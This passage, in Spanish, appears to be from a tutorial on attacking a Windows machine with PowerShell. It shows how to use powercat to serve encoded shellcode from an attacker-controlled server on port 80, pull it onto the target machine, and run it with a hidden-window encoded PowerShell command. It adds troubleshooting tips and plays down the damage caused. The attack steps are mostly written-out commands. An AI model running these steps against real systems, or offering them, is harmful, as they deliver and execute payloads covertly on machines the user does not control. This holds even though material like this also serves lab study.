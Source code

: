 Ahora que tenemos la shellcode a enviar, procederemos a crear el servidor en el ordenador local. Para ello, ejecutaremos lo siguiente:

```powershell
powercat –l –p 80 –i .\KanseiEncripto.txt
```

Esto creará un servidor en el puerto 80 (típicamente abierto para conexiones http) que sirva la shellcode encodeada a aquel que se conecte.

Lo siguiente es conectarnos a este servidor desde la máquina atacada. La IP del servidor en este ejemplo será 0.0.0.0, pero recordad que debéis usar la IP real del servidor.

```powershell
powercat –c 0.0.0.0 –p 80
```

##### Posibles errores

###### ¡No se conecta!

Mira a ver el Firewall de Windows, el antivirus... Pero sobre todo, mira a ver si te has dejado 0.0.0.0 como IP.

###### ¡Se conecta, pero no me muestra nada!

Sí, eso me pasaba a mí. Machaca el Enter como un mono en el ordenador que hace de servidor. Por algún extraño motivo, eso hace que funcione.

---

Si todo ha salido bien, veremos en la PowerShell el script que estábamos sirviendo.

Lo siguiente que debemos hacer es copiar este código y abrir el Bloc de notas de Windows. Una vez hecho, debemos pegar el código en él y eliminar todos los finales de línea que nos da el copiar de PowerShell. Por último, guardaremos el archivo (en nuestro caso, se llamará Enc.txt) en la carpeta de trabajo de PowerShell.

Ahora, solo nos queda pasar la shellcode encodeada a PowerShell. Para ello, la guardaremos en una variable:

```powershell
$enc = cat .\Enc.txt
```

Una vez guardada, la ejecutaremos en PowerShell sin perfil y con la ventana oculta. Para ello, hacemos:

```powershell
powershell –nop –window hidden –enc $enc
```

Una vez hecho, desaparecerá la ventana de PowerShell y... Bueno, comprobad vosotros mismos lo que pasa.

##### Posibles daños

Si la máquina atacada tiene esta vulnerabilidad, tiene un problema serio (como veremos luego). No obstante, la ejecución de este script no genera un gran daño: En un reinicio, todo está resuelto. Podemos perder archivos temporales en los que estuviésemos trabajando, pero por lo general, no vamos a producir daños severos.
